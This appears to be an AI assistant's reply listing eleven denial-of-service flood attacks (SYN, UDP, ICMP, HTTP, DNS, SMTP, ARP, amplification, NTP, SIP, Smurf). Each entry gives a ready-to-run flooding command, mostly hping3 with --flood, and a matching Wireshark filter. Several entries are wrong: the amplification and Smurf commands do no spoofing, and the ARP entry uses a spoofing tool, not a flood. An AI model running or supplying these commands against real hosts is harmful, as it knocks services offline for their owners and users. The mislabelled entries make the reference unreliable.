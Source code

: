 ### 1. SYN Flood
A SYN flood attack involves sending a succession of SYN requests to a target's system in an attempt to consume enough server resources to make the system unresponsive to legitimate traffic.

**Command:**
```bash
hping3 -S -p 80 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
tcp.flags.syn == 1
```

### 2. UDP Flood
A UDP flood attack sends a large number of UDP packets to random ports on a remote host.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
udp
```

### 3. ICMP Flood (Ping Flood)
An ICMP flood attack sends a large number of ICMP Echo Request (ping) packets to the target.

**Command:**
```bash
hping3 -C 8 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
icmp
```

### 4. HTTP Flood
An HTTP flood attack sends a large number of HTTP requests to a web server.

**Command:**
```bash
ab -n 10000 -c 100 <target_url>
```

**Wireshark Filter:**
```plaintext
http
```

### 5. DNS Flood
A DNS flood attack sends a large number of DNS requests to a DNS server.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
dns
```

### 6. SMTP Flood
An SMTP flood attack sends a large number of SMTP requests to an SMTP server.

**Command:**
```bash
hping3 -2 -p 25 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
smtp
```

### 7. ARP Flood
An ARP flood attack sends a large number of ARP requests to a network.

**Command:**
```bash
arpspoof -i <interface> -t <target_ip> <gateway_ip>
```

**Wireshark Filter:**
```plaintext
arp
```

### 8. DNS Amplification Attack
A DNS amplification attack sends a large number of DNS requests to a DNS server with a spoofed source IP address.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
dns
```

### 9. NTP Flood
An NTP flood attack sends a large number of NTP requests to an NTP server.

**Command:**
```bash
hping3 -2 -p 123 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
ntp
```

### 10. SIP Flood
A SIP flood attack sends a large number of SIP requests to a SIP server.

**Command:**
```bash
sipflood -t <target_ip> -p 5060 -c 1000
```

**Wireshark Filter:**
```plaintext
sip
```

### 11. Smurf Attack
A Smurf attack sends a large number of ICMP Echo Request packets with a spoofed source IP address to a network.

**Command:**
```bash
hping3 -C 8 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
icmp
```

Would you like me to explain or break down any of the commands or filters?
